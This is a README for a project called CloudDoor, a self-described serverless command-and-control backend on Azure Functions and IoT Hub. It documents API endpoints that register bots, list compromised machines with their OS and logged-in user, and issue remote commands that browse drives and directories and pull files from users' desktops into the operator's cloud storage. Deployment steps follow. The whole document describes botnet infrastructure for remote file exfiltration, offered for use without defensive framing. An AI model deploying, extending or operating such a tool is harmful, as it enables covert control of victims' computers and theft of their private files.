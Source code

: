 # About

CloudDoor is a minimalistic serverless CnC application based on Azure Functions and Azure IoT Hub.
The application allows to register new IoT devices, perform basic queries on them and issue remote operations.

The following reporitory contains only the backend configuration and code.
[The code of an example bot can be found here.](https://github.com/kamiljano/CloudDoorClient)

# TODO

* Store the device creation date (might require parsing the IoT Hub event)
* make sure that the functions are deployed along with the template
* Figure out the authentication for everything except for the registration function
* Add automatic client version updates
* Make sure that the admin api of the IoT Hub can only be accessed from the cloud. Might need to put it into some vNet or something

# Endpoints

## Register

    PUT /api/bots

    No Body

    Example output:

    {
        "connectionString": "HostName=**********;SharedAccessKey=**************",
        "deviceId": "****************"
    }

## Search for devices

    GET /api/bots

    Example output:

    [
        {
            "id": "c12535a0-a673-4510-8bbc-c1b3bb80281f",
            "os": {
                "version": "Microsoft Windows NT 6.2.9200.0",
                "type": "Win32NT"
            },
            "currentUser": "DF\\janoka"
        }
    ]

## Issue a command

    POST /api/bots/:botId/command

### List Drives

    Request Body:

    {
        "type": "driveList"
    }

    Example Response:

    {
        "drives": [
            {
                "name": "C:\\"
            }
        ]
    }

### List Directories

    Request Body:

    {
        "type": "dirList",
        "payload": {
            "path": "C:"
        }
    }

    Example Response:

    {
        "files": [
            {
                "name": "data",
                "type": "DIR"
            },
            {
                "name": "postgresql_84.exe",
                "type": "FILE"
            }
        ]
    }

### Upload file

    Request Body:

    {
        "type": "fileUpload",
        "payload": {
            "paths": [
                "C:\\Users\\janoka\\Desktop\\exam.docx"	
            ]
        }
    }

    Example Response:

    {
        "uploads": [
            {
                "status": "UPLOADED",
                "path": "C:\\Users\\janoka\\Desktop\\speach.docx",
                "storage": {
                    "path": "uploads/2a33cc05-8186-45e2-ae47-1325cf89d66d/C:/Users/janoka/Desktop/speach.docx"
                }
            }
        ]
    }

Where `uploads.storage.path` represents the exact place in the Azure Storage account where the file is available.

# Install Dependencies

All dependencies can be installed with the simple command

```
npm install -g azure-functions-core-tools
npm install
```

# Deploy

## Production environemnt

1. Create a resource group - `az group create --name CloudDoorProdResourceGroup --location northeurope`
2. Deploy the resources - `az group deployment create --resource-group CloudDoorProdResourceGroup --template-file "./azuredeploy.json"`

## Development environment

1. Create a resource group - `az group create --name CloudDoorDevResourceGroup --location northeurope`
2. Deploy the resources - ` az group deployment create --resource-group CloudDoorDevResourceGroup --template-file "./azuredeploy.json" --parameters @azuredeploy-devparameters.json`

## Common

3. Authentiation cannot be defined in the ARM template. This is why it has to be set up automatically based on [this video](https://www.youtube.com/watch?v=aMk4sieku_Y)

# Debug locally

Once all resources are deployed, you can fetch the remote settings with `func azure functionapp fetch-app-settings CloudDoorDev`.
This will pre-configure the `local.settings.json` with all the necessary data to hook your local instance to the remotely hosted IoT Hub and
all other resources that are necessary for a smooth local run.

Once you have your `local.settings.json` in place, run the local server with `func start`